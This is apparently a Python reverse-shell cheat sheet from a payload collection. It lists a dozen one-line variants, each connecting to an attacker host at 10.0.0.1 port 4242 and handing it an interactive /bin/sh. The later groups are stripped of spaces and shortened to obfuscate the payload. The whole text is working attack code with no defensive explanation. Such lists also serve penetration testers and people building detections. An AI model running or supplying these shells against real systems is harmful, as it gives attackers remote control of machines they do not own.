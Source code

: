 ## Python
#### IPv4
```
export RHOST="10.0.0.1"; export RPORT=4242; python -c 'import socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("/bin/sh")'
```
```
python -c 'import socket, os, pty; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh")'
```
```
python -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh", "-i"])'
```
```
python -c 'import socket, subprocess; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); subprocess.call(["/bin/sh", "-i"], stdin=s.fileno(), stdout=s.fileno(), stderr=s.fileno())'
```
#### IPv4 | No Spaces
```
python -c 'socket=__import__("socket"); os=__import__("os"); pty=__import__("pty"); s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); pty.spawn("/bin/sh")'
```
```
python -c 'socket=__import__("socket"); subprocess=__import__("subprocess"); os=__import__("os"); s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call(["/bin/sh", "-i"])'
```
```
python -c 'socket=__import__("socket"); subprocess=__import__("subprocess"); s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); subprocess.call(["/bin/sh", "-i"], stdin=s.fileno(), stdout=s.fileno(), stderr=s.fileno())'
```
#### IPv4 | No Spaces, Shortened
```
python -c 'a=__import__; s=a("socket"); o=a("os").dup2; p=a("pty").spawn; c=s.socket(s.AF_INET, s.SOCK_STREAM); c.connect(("10.0.0.1", 4242)); f=c.fileno; o(f(), 0); o(f(), 1); o(f(), 2); p("/bin/sh")'
```
```
python -c 'a=__import__; b=a("socket"); p=a("subprocess").call; o=a("os").dup2; s=b.socket(b.AF_INET, b.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); f=s.fileno; o(f(), 0); o(f(), 1); o(f(), 2); p(["/bin/sh", "-i"])'
```
```
python -c 'a=__import__;b=a("socket"); c=a("subprocess").call; s=b.socket(b.AF_INET, b.SOCK_STREAM); s.connect(("10.0.0.1", 4242)); f=s.fileno; c(["/bin/sh", "-i"], stdin=f(), stdout=f(), stderr=f())'
```
#### IPv4 | No Spaces, Shortened, Further
```
python -c 'a=__import__; s=a("socket").socket; o=a("os").dup2; p=a("pty").spawn; c=s(); c.connect(("10.0.0.1", 4242)); f=c.fileno; o(f(), 0); o(f(), 1); o(f(), 2); p("/bin/sh")'
```
```
python -c 'a=__import__; b=a("socket").socket; p=a("subprocess").call; o=a("os").dup2;s=b(); s.connect(("10.0.0.1", 4242)); f=s.fileno; o(f(), 0); o(f(), 1); o(f(), 2); p(["/bin/sh", "-i"])'
```
```
python -c 'a=__import__; b=a("socket").socket; c=a("subprocess").call; s=b(); s.connect(("10.0.0.1", 4242)); f=s.fileno; c(["/bin/sh", "-i"], stdin=f(), stdout=f(), stderr=f())'
```